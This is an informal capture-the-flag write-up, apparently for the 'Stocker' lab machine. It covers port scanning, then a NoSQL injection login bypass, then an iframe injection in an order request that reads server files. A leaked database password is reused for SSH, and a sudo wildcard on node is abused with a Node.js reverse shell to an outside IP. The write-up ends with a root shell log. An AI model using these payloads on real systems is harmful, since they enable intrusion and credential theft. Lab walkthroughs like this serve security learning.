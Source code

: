 ## Enumeration


http://stocker.htb/



Nmap scan report for stocker.htb (10.10.11.196)
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|   256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 4EB67963EC58BC699F15F80BBE1D91CC
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Stock - Coming Soon!
|_http-generator: Eleventy v2.0.0
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel



http://dev.stocker.htb/


Nmap scan report for dev.stocker.htb (10.10.11.196)
Host is up (0.051s latency).
rDNS record for 10.10.11.196: stocker.htb
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|   256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-title: Stockers Sign-in
|_Requested resource was /login
|_http-generator: Hugo 0.84.0
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel




so dev is the target cause have chance to menage with post request ! 



##  Webapp



Every /GET request is redirecting to /login

i see that the node.js express application can be implemented in 2 different ways as db sql and nosql 


unfortunatly sql is not working 



i tried different nosql injection and i bypass the auth with this request



```
{"username": {"$ne": null}, "password": {"$ne": null} }
```







## Purchase
```html
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 231
Connection: close
Cookie: connect.sid=s%3AvdFP0aALtjkB75hCcZgPtc0FXl2I61DX.1rhRAdQLqmtluYgGTUBEV1qCMsJZRdb6S%2F7HPMr6dGw
DNT: 1
Sec-GPC: 1

{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<iframe src=file:///var/www/dev/index.js width=1000 height=800></iframe>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```







const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";





## SSH



with ssh we can login with ssh angoose@stocker.htb IHeardPassphrasesArePrettySecure






## Privilage Escaltion


sudo -l : reveals a list user's privileges or check a specific command `/usr/bin/node /usr/local/scripts/*.js/` 

so we can try let node reads some malicius js content like this:


```js
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(4444, "10.10.14.109", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; })();

```

and boom


### Root

```
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.109] from (UNKNOWN) [10.10.11.196] 52126
l
/bin/sh: 1: l: not found
id
uid=0(root) gid=0(root) groups=0(root)
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@stocker:/tmp# ls

```



